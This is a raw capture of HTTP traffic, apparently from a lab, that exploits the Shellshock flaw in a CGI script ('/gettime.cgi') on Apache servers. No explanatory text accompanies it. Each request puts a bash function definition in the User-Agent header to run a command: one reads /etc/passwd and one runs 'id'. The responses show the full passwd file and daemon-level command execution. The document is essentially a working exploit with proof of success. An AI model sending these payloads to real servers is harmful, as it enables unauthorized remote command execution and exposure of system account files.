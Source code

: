 ```
GET /gettime.cgi HTTP/1.1
Host: 192.63.27.3
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```
HTTP/1.1 200 OK
Date: Mon, 17 Oct 2022 03:58:07 GMT
Server: Apache/2.4.6 (Unix)
Connection: close
Content-Length: 957


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
```

```
GET /gettime.cgi HTTP/1.1
Host: 192.151.67.3
User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.151.67.3/
Connection: close
```

```
HTTP/1.1 200 OK
Date: Mon, 17 Oct 2022 09:40:49 GMT
Server: Apache/2.4.6 (Unix)
Connection: close
Content-Length: 46


uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

